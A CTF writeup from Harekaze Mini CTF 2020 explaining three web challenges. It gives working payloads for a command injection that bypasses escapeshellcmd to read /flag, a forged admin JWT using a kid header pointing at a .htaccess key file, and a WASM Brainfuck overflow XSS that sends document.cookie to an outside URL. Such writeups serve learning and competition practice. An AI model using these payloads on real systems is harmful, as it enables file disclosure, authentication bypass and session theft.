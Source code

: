 ```yaml
---
layout: post
title: "Harekaze Mini CTF 2020 writeup"
date: 2020-12-30 15:00
categories: CTF 
---
```


1st placed at NekoLover(@shpik)

I attended to Harekaze Mini CTF 2020 with `JJY`, `rbtree`, `03sunf`, and we god a first place :). 
I wrote writeup on some of the challs I solved.

It was a really fun CTF after a long time ago.

## [Web] What time is it now?
### Description
It's about ...

### Solve
Here is source code:
```php
<?php
if (isset($_GET['source'])) {
  highlight_file(__FILE__);
  exit;
}

$format = isset($_REQUEST['format']) ? (string)$_REQUEST['format'] : '%H:%M:%S';
$result = shell_exec("date '+" . escapeshellcmd($format) . "' 2>&1");
?>
```

As you can see, this chall is command injection.
Basically, If `escapeshellcmd` is a pair of `'` or `"`, it is not escape.

https://www.php.net/manual/en/function.escapeshellcmd.php
> Following characters are preceded by a backslash: &#;`|*?~<>^()[]{}$\, \x0A and \xFF. ' and " are escaped only if they are not paired.

Payload: ' '-f/flag

FLAG: HarekazeCTF{1t's_7pm_1n_t0ky0}

## [Web] JWT is secure
### Description
I learned implementing a custom session function is prone to be insecure, so this time I adopted JWT (JSON Web Token).

### Solve
First, i checked how to get flag, and found below code in `page/admin.php`:
```php
<?php if ($session->get('role') === 'admin') { ?>
    We have confirmed you are an admin. The flag is: <b><?= FLAG ?></b>.
<?php } else { ?>
    You have no authority to access this page!
<?php } ?>
```
If i have session with admin role, can get flag.

Therefore i noticed session manage class and found vulnerability.
```php
  public function __construct($cookie_name='jwtsession', $dir='./keys') {
    $this->cookie_name = $cookie_name;
    $this->base_dir = $dir;

    if (array_key_exists($cookie_name, $_COOKIE)) {
      try {
        $tmp = new JWT($_COOKIE[$cookie_name]);
        $kid = $tmp->getHeader('kid'); // 1. set kid value
        $this->key = $this->getSecretKey($kid); 

        if (!$tmp->verify($this->key)) {
          throw new Exception('Signature verification failed');
        }

        $this->jwt = $tmp;
      } catch (Exception $e) {
        die('Error occurred: ' . $e->getMessage());
      }
    }
    // ... snip ...
  }

  private function getSecretKey($kid) {
    $dir = $this->base_dir . '/' . $kid[0] . '/' . $kid[1];
    $path = $dir . '/' . $kid;

    // no path traversal, no stream wrapper
    if (preg_match('/\.\.|\/\/|:/', $kid)) {
      throw new Exception('Hacking attempt detected');
    }

    if (!file_exists($path) || !is_file($path)) {
      throw new Exception('Secret key not found');
    }

    return file_get_contents($path); // 2. open kid value if passed some check logic.
  }
```
The kid value in JWT is setted as key.
And it has some filtering.
Due to insufficient filtering, we can bypass it.

See the dist files, we know .htaccess file in keys directory.
So i use that files, and get flag with admin role session i made.

```python
import jwt

key = open("keys/.htaccess").read()
print(jwt.encode({"username": "1","role":"admin"},key, algorithm="HS256", headers={"typ":"JWT","kid":"./.htaccess"}))
```

FLAG: HarekazeCTF{l1st3n_1_just_g1v3_y0u_my_fl4g_4t4sh1_n0_w4v3_w0_t0b4sh1t3_m1ruk4r4}

## [Web] WASM BF
### Description
Now it is the era of WebAssembly. To learn WebAssembly, I wrote a Brainf*ck interpreter in C and compiled to wasm.

### Solve
It's a WASM chall, but fortunately the source code was given! :happy:

How to work:
1. Input Brainfuck(bf) code (Web)
2. execute bf code inputed (WASM)
    - Filtering: if char has `<` or `>` values, then it changes to HTML Entity (WASM)
3. Print in web page (WASM -> Web)


Here is filtering code:
```c
void print_char(char c) {
  if (buffer_pointer + 4 >= buffer + BUFFER_SIZE) {
    flush();
  }

  // Prevent XSS!
  if (c == '<' || c == '>') {
    buffer_pointer[0] = '&';
    buffer_pointer[1] = c == '<' ? 'l' : 'g';
    buffer_pointer[2] = 't';
    buffer_pointer[3] = ';';
    buffer_pointer += 4;
  } else {
    *buffer_pointer = c;
    buffer_pointer++;
  }
}
```

I focused on the code below and confirmed that there was no inspection of the boundary.

This allows access to `buffer` from `memory`, which can cause XSS by bypassing the filtering above.
```cpp
unsigned char buffer[BUFFER_SIZE] = {0};
unsigned char *buffer_pointer = buffer;
unsigned char memory[MEMORY_SIZE] = {0};
char program[PROGRAM_MAX_SIZE] = {0};

int execute(int length) {
  for (int i = 0; i < length; i++) {
    program[i] = _get_char();
  }
  // ...snip...
  while (counter < length && executed < 100000) {
    char c = program[counter];

    switch (c) {
      // ...snip...
      case '>': {
        pointer++;
        break;
      }
      case '<': {
        pointer--;
        break;
      }
      // ...snip...
    }
    // ...snip...
  }
  // ...snip...
}
```
Finally, i found index for overwritting `buffer` and got flag.

```javascript
executeButton.addEventListener('click', async () => {
    //execute(edit.value);
    for(var i=10;i<0x200;i++){
      rr= "----[---->+<]>--.--[--->+<]>.++++.------.-[--->+<]>--.---[->++++<]>-.-.++++[->+++<]>+.[--->++<]>-----.-[->++<]>.[---->+<]>++.+++++[->+++<]>.-.---------.+++++++++++++..---.+++.[-->+<]>++++.>--[----->+<]>-.[--->+<]>-.[->+++<]>-.+++++++++++.[--->+<]>++++.----[->+++<]>.+++.------------.--.--[--->+<]>-.-----------.++++++.-.[----->++<]>++.[--->++<]>-.++++[->+++<]>.----.--[--->+<]>---.++++[->+++<]>+.+++++.---[->+++<]>-.[--->++<]>-.++.+[->+++<]>.[--->+<]>---.+.--.[--->+<]>++.+++++++++.--------..-[-->+++<]>+."
      t = rr + "<".repeat(i) + ".";
      if(t.length > 1000) break;
      ee = await execute(t);
      if(ee.substr(-1) == "="){
        console.log(i, t, ee );
        break;
      }
    
    }
  }, false);
```

Here is my final payload:
```
?location.href=`https://[url]/?${document.cookie}`#----[---->+<]>--.--[--->+<]>.++++.------.-[--->+<]>--.---[->++++<]>-.-.++++[->+++<]>+.[--->++<]>-----.-[->++<]>.[---->+<]>++.+++++[->+++<]>.-.---------.+++++++++++++..---.+++.[-->+<]>++++.>--[----->+<]>-.[--->+<]>-.[->+++<]>-.+++++++++++.[--->+<]>++++.----[->+++<]>.+++.------------.--.--[--->+<]>-.-----------.++++++.-.[----->++<]>++.[--->++<]>-.++++[->+++<]>.----.--[--->+<]>---.++++[->+++<]>+.+++++.---[->+++<]>-.[--->++<]>-.++.+[->+++<]>.[--->+<]>---.+.--.[--->+<]>++.+++++++++.--------..-[-->+++<]>+.<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<+<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<-
```

FLAG: HarekazeCTF{I_th1nk_w4sm_1s_e4s1er_t0_re4d_th4n_4smjs}
